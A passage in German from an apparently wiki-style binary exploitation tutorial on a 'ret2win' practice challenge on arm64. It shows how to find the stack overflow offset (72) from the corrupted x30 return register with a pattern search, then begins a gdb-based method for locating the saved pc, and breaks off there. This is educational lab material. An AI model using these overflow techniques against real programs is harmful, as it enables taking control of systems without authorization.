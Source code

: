 arm64 wird versuchen, zur Adresse im Register x30 (das kompromittiert wurde) zurückzukehren. Wir können das verwenden, um den Muster-Offset zu finden:
```bash
pattern search $x30
```
<figure><img src="../../../.gitbook/assets/image (1206).png" alt=""><figcaption></figcaption></figure>

**Der Offset beträgt 72 (9x48).**

### Stack-Offset-Option

Beginnen Sie damit, die Stack-Adresse zu erhalten, an der das pc-Register gespeichert ist:
```bash
gdb -q ./ret2win
b *vulnerable_function + 0xc
run
info frame
```
<figure><img src="../../../.gitbook/assets/image (1207).png" alt=""><figcaption></figcaption></figure>
